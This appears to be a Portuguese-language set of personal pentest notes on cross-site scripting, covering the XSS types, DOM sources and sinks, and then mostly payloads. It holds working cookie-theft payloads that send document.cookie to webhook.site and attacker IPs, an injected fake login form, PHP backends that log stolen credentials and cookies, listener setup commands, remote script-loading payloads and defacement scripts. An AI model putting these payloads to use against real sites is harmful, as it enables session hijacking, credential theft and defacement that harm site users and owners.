 # XSS

Existem **três tipos principais** de vulnerabilidades XSS:

| Tipo                         | Descrição |
|-----------------------------|-----------|
| **Stored (Persistent) XSS** | O tipo mais crítico de XSS, ocorre quando a entrada do usuário é armazenada no banco de dados do back-end e, em seguida, exibida posteriormente (ex: postagens ou comentários). |
| **Reflected (Non-Persistent) XSS** | Ocorre quando a entrada do usuário é refletida imediatamente na página após ser processada pelo servidor, sem ser armazenada (ex: resultados de pesquisa ou mensagens de erro). |
| **DOM-based XSS** | Um tipo de XSS não persistente que acontece quando a entrada do usuário é manipulada diretamente pelo navegador, sem passar pelo servidor (ex: parâmetros de URL ou tags de âncora). |

### Exemplos simples de payloads:

```html
<script>alert(window.origin)</script>
<plaintext>
<script>print()</script>
<img src="" onerror=alert(window.origin)>
<html%0aonpoIntEreNtER+=+[8].find(confirm)//>
<details%09ontoGGle%09=%09[8].find(confirm)%0dx//>
/language?destination=data:text/html;base64,PHNjcmlwdD5hbGVydCgnWFNTUE9TRUQnKTwvc2NyaXB0Pg==
<img src=x onerror="fetch('https://webhook.site/de5d7883-a25c-41cd-beb6-113d2b50a605',{method:'POST',body:'cookie='+document.cookie})">
<script>fetch("https://webhook.site/8a54464b-651a-4ae5-9d09-d19711774bd1",{method:'POST',body:'cookie='+document.cookie});</script>
```
Ferramenta útil: [URL/HTML Decoder - Eric Meyer](https://meyerweb.com/eric/tools/dencoder/)

---

### ✳️ DOM-Based XSS - Source & Sink

Para compreender XSS baseado em DOM, é essencial entender os conceitos de:

* **Source**: Objeto JavaScript que recebe a entrada do usuário (ex: parâmetros de URL, campos de input).
* **Sink**: Função que escreve a entrada do usuário no DOM. Se não sanitizar corretamente, permite ataques XSS.

### Funções JavaScript comuns como *sink*:

* `document.write()`
* `element.innerHTML`
* `element.outerHTML`

### Funções jQuery vulneráveis:

* `add()`
* `after()`
* `append()`

---

### 🎣 XSS Phishing

Simulando um formulário de login falso via XSS (passar no parâmetro vulnerável):

```html
document.write('<h3>Please login to continue</h3><form id="urlform" action="http://172.17.173.25"><input type="username" name="username" placeholder="Username"><input type="password" name="password" placeholder="Password"><input type="submit" name="submit" value="Login"></form><script>document.getElementById("urlform").remove();</script> <!--

```
Backend para captura de credenciais no seu host (ex na sua maquina atacante, um arquivo: index.php):

```php
<?php
if (isset($_GET['username']) && isset($_GET['password'])) {
    $file = fopen("creds.txt", "a+");
    fputs($file, "Username: {$_GET['username']} | Password: {$_GET['password']}\n");
    fclose($file);
    header("Location: http://SERVER_IP/phishing/index.php");
    exit();
}
?>
```
Host local com servidor PHP:

```bash
mkdir /tmp/tmpserver
cd /tmp/tmpserver
nano index.php   # Cole o código acima
sudo php -S 0.0.0.0:80
```

---

### 🖥️ XSS Defacement
Altera o conteúdo visual da página:

```html
<script>document.body.style.background = "black"</script>
<script>document.title = "deface"</script>
<script>document.getElementsByTagName('body')[0].innerHTML = "Deface"</script>

<script>
document.getElementsByTagName('body')[0].innerHTML = `
  <center>
    <h1 style="color: black">Protect this site, fellas</h1>
    <p style="color: white">
      by <img src="https://i.imgflip.com/1gpstz.jpg" height="1000px">
    </p>
  </center>`;
</script>

#Payload 1
<script>
  document.body.innerHTML = 
    <center>
      <iframe title="Doom" width="1000" height="900" src="https://emupedia.net/emupedia-game-doom1/asmjs/"></iframe>
      <br><br><br><br>
    </center>
  ;
</script>

#Payload 2
<iframe title="Doom" width="500" height="400" src="https://emupedia.net/emupedia-game-doom1/asmjs/"></iframe>
```

---

### 🍪 XSS Session Hijacking / Blind XSS

Backend para roubo de cookies (ex: index.php):

```php
<?php
if (isset($_GET['c'])) {
    $list = explode(";", $_GET['c']);
    foreach ($list as $cookie) {
        $cookie = urldecode($cookie);
        $file = fopen("cookies.txt", "a+");
        fputs($file, "Cookie: {$cookie}\n");
        fclose($file);
    }
}
?>
```

Host local para escuta:

```bash
mkdir /tmp/tmpserver
cd /tmp/tmpserver
nano index.php   # Cole o código acima
php -S 0.0.0.0:4444
```
Payloads de exfiltração:

```html
<script src="http://OUR_IP"></script>
'><script src="http://OUR_IP"></script>
"><script src="http://OUR_IP"></script>

javascript:eval('var a=document.createElement("script");a.src="http://OUR_IP";document.body.appendChild(a)')

<script>
function b(){eval(this.responseText)};
a = new XMLHttpRequest();
a.addEventListener("load", b);
a.open("GET", "//OUR_IP");
a.send();
</script>

<script>$.getScript("http://OUR_IP")</script>

"><script>new Image().src='http://10.10.15.190:8080/index.php?c='+document.cookie</script>
```

falar ainda sobre dalfox e xss strike
